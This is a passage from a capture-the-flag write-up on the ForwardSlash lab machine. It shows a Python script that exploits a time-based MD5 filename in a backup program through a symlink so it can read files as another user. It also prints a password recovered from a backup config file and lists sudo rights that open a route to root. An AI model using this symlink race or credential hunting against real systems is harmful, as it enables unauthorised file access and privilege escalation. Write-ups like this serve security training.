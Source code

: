 Good, the hash matches so we know that random file name is just a hash of the current time. So to exploit this program, I just need to generate a symlink to the file I want to read using the MD5 hash of the current time. Since the program runs as pain, I'll be able to read any files owned by this user.

```python
#!/usr/bin/python
import hashlib
import os
import sys
from time import gmtime, strftime

a = str(strftime("%H:%M:%S"))
print a
m = hashlib.md5()
m.update(a)
print os.symlink(sys.argv[1], m.hexdigest())
print os.system('/usr/bin/backup')
```

I can now read any file with user `pain` privileges:

![](/assets/images/htb-writeup-forwardslash/user.png)

After looking around, I found the `/var/backups/config.php.bak` file containing pain's password: `db1f73a72678e857d91e71d2963a1afa9efbabb32164cc1d94dbc704`

![](/assets/images/htb-writeup-forwardslash/ssh4.png)

I can log in as `pain` now:

![](/assets/images/htb-writeup-forwardslash/pain.png)

## Privesc to root unintended way

There's a note in pain's home directory that gives a hint about the next step.

```
pain@forwardslash:~$ cat note.txt 
Pain, even though they got into our server, I made sure to encrypt any important files and then did some crypto magic on the key... I gave you the key in person the other day, so unless these hackers are some crypto experts we should be good to go.

-chiv
```

Running sudo shows there's a few commands we can run as root like opening and mounting an encryted Luks volume.

```
pain@forwardslash:~$ sudo -l
Matching Defaults entries for pain on forwardslash:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pain may run the following commands on forwardslash:
    (root) NOPASSWD: /sbin/cryptsetup luksOpen *
    (root) NOPASSWD: /bin/mount /dev/mapper/backup ./mnt/
    (root) NOPASSWD: /bin/umount ./mnt/
```
